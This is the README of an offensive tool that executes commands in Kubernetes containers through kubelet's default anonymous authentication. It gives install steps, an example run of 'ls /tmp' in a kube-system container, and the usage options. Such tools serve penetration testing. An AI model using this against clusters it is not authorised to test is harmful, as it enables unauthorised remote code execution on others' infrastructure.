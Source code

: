 # Kubelet Anonymous RCE

>Executes commands on a kubelet endpoint that allows anonymous authentication (default)

## Why?

By default `kubelet` allows anonymous authentication:

```
--anonymous-auth
	Enables anonymous requests to the Kubelet server. Requests that are not rejected by another authentication method are treated as anonymous requests. Anonymous requests have a username of system:anonymous, and a group name of system:unauthenticated. (default true)
```

The `kubelet` API is not documented but the [code](https://github.com/kubernetes/kubernetes/blob/master/pkg/kubelet/server/server.go) is straightforward.

There is a `/exec` endpoint which allows running a command in a target container and returns a link to fetch the output.

The link is a stream that should be read with a websocket.

This script handles it all easily.

## Install

```
$ git clone https://github.com/serain/kubelet-anon-exec.git
$ cd kubelet-anon-exec
$ pip3 install -r requirements.txt
```

## Example

This command runs `ls /tmp` in the `tiller` container and returns the output:

```
$ python3 kubelet-anon-rce.py --node 10.1.2.3 --namespace kube-system --pod tiller-797d1b1234-gb6qt --container tiller --exec "ls /tmp"
```

## Usage 

```
$ python kubelet-anon-exec.py --help
usage: kubelet-anon-exec.py [-h] [--port PORT] -t TARGET -n NAMESPACE -p POD
                            -c CONTAINER -x EXEC

Run commands against a Kubelet endpoint.

optional arguments:
  -h, --help            show this help message and exit
  --port PORT           endpoint port, default: 10250
  -t TARGET, --target TARGET
                        Kubernetes node IP address
  -n NAMESPACE, --namespace NAMESPACE
                        namespace, ie: 'default'
  -p POD, --pod POD     pod name, ie: 'dh-nginx-8484b69674-z9tzl'
  -c CONTAINER, --container CONTAINER
                        container name, ie:'nginx'
  -x EXEC, --exec EXEC  command to execute, ie: 'ls /tmp'
```
